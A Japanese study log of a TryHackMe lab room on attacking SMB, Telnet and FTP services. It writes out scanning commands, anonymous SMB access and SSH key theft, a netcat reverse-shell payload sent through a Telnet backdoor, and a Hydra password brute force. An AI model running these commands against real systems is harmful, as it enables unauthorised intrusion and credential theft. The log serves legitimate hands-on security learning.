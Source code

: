 # 20210829

## THM

### Pre Security

* Network Fundamentals
  * OSI ModelからFreeじゃなかった
  * とりあえずMonthly PlanでPremiumに加入
  * おわらせたが、1日おきにアクションを取ることで得られるものがあると気がついたのでPre Securityはほかが進まないときに使うことにした

### Cyber Defense Introduction: Network Services

#### Enumerating SMB

* nmapでポートスキャンして、smbが開いてればEnum4Linuxで情報を集める
  * [Nmapのroom](https://tryhackme.com/room/furthernmap)やっとけとのことなのでそのうちやる

```bash
nmap -sV -sC -T4 $ipaddr
enum4linux $ipaddr -A > e4l.txt
```

#### Exploiting SMB

* CVE-2017-7494のような脆弱性を攻めるのもいいが、誤った設定を利用した侵入が最適であることが多いとのこと
  * やらせたいだけな気がしないでもない
* まずは匿名アクセスが許可されているかどうかを確認する
  * Enumeratingのフェーズで見つけた共有にAnonymousユーザーを使ったログインを試行する

```bash
smbclient //$ipaddr/$share -U Anonymous
```

* 「sshを設定した」というメッセージと.sshが無造作に置かれている
  * メッセージからユーザー名を推測する
  * .sshから秘密鍵を取得する
* 上記でsshアクセスしてFlagを取得

#### Enumerating Telnet

* well-known portにはなにもみつからないので-p-タグをつけてnmapを実行する
* サービスがunknownなポートがみつかるのでtelnetをかます
  * 堂々と「SKIDY'S BACKDOOR」と記載されており、.RUNでコマンド実行されるとのこと

```bash
nmap -sV -sC -T4 $ipaddr
nmap -sV -sC -T4 -p- $ipaddr

telnet $ipaddr 8012
```

#### Exploiting Telnet

* TelnetのCVEを探すための参考サイトが紹介されるが、今回は特に使わない
  * [cvedetails.com](https://www.cvedetails.com/)
  * [cve.mitre.org](https://cve.mitre.org/)
* backdoorから任意コード実行できるが、投げっぱなしで結果が取得できないのでリバースシェルを狙う
* 適当にコマンドを投げてみても特に何も返ってこないので、本当にコマンドが通っているかどうかを確認する

```bash
sudo tcpdump icmp -i eth0
```

```telnet
.RUN ping $local_ipaddr -c 1
```

* ICMPが見えたのでコマンドは実行できている
* リモートにコマンドが投げ込めそうなのは確認したので、リバースシェルのペイロードを作成する

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=$local_ipaddr lport=4444 R
# mkfifo /tmp/iprh; nc XXX.XXX.XXX.XXX 4444 0</tmp/iprh | /bin/sh >/tmp/iprh 2>&1; rm /tmp/iprh
nc -lvp 4444
```

```telnet
.RUN mkfifo /tmp/iprh; nc $local_ipaddr 4444 0</tmp/iprh | /bin/sh >/tmp/iprh 2>&1; rm /tmp/iprh
```

```bash
# Connection from ip-XXX-XXX-XXX-XXX.eu-west-1.compute.internal XXXXX received!
```

* 接続したディレクトリを覗いてFlagを取得

#### Enumerating FTP

* nmapで覗くとFTPがいるのでanonymous FTP loginが許可されていることを利用して覗く
* Alternative Enumeration Methodsとして、脆弱なFTPのバージョンにおけるcwdの挙動の違いを利用したEnumerationが紹介されている
  * [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

```bash
nmap -sV -sC -T4 $ipaddr
nmap -sV -sC -T4 -p- $ipaddr

ftp $ipaddr
# Connected to XXX.XXX.XXX.XXX.
# 220 Welcome to the administrator FTP service.
# Name (XXX.XXX.XXX.XXX:root): anonymous
```

* みえてるtxtからFTPユーザー名を推測する

#### Exploiting FTP

* 推測したユーザー名でbruteforceする
  * Hydraを利用する

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV $ipaddr ftp
```

* passwordがヒットするので、これを利用してFTPログインする
* Flagを取得する

#### Expanding Your Knowledge

* このroom後に読むと良いという資料が紹介されているので後で読む
  * [exploiting-simple-network-services-in-ctfs-ec8735be5eef](https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef)
  * [attack.mitre.org/techniques/T1210](https://attack.mitre.org/techniques/T1210/)
  * [nsa-warns-vulnerabilities-multiple-vpn-services](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)

<!-- 
```bash
```
-->
